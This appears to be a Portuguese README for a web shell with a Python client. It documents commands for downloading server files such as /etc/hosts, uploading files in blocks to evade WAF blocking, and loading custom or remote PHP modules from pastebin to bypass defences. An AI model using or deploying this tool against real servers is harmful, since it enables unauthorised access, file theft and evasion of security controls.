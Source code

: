 # webshell

Webshell com cliente em python, com possibilidade de carregamento de modulos e comandos locais.

![WebShell](img/image.png)

### Modulos

Existe a possibilidade de criar e carregar modulos costumizados para tentar burlar bloqueios de WAFs e/ou adicionar novos recursos que esteja em falta.

Exemplo de modulo com o source:
```php
<?php
global $wShell;

$wShell->on("teste", function($args, $length) use ($wShell){
    return $wShell->setResponse("testando 123");
});
```
![WebShellModule](img/image02.png)

### Comandos

- download
  - Faz download de um arquivo
  - Uso: `download [arquivo] [local para salvar (opcional)]`
  - Exemplos:
    - `download /etc/hosts downloads/hosts`
    - `download /etc/hosts`
- upload
  - Realiza o upload de um arquivo, caso não exista o arquivo no servidor
  - Uso: `upload [arquivo] [local com nome para salvar (opcional)]`
  - Exemplos:
    - `upload a.php`
    - `upload a.php abc.php`
- uploadinblocks
  - Realiza o upload de um arquivo divido em blocos para evitar bloqueio de WAFs
  - Uso: `uploadinblocks [arquivo] [local com nome para salvar] [tamanho do bloco (padrão 1024)]`
  - Exemplos:
    - `uploadinblocks a.php`
    - `uploadinblocks a.php /home/saturn/ 128`
- webshellping
  - Verifica o tempo de ida e volta da requisição com a web shell
  - Uso: `webshellping`
- module-add
  - Adiciona um modulo na sessão
  - Uso: `module-add [nome do modulo] [localdo arquivo (possibilidade de arquivo remoto)]`
  - Exemplos:
    - `module-add teste teste.module.php`
    - `module-add teste https://pastebin.com/raw/anccf`
- module-remove
  - Remove um modulo da sessão
  - Uso: `module-remove [nome do modulo]`
  - Exemplo:
    - `module-remove teste`
- module-list
  - Lista os modulos da sessão
  - Uso: `module-list`
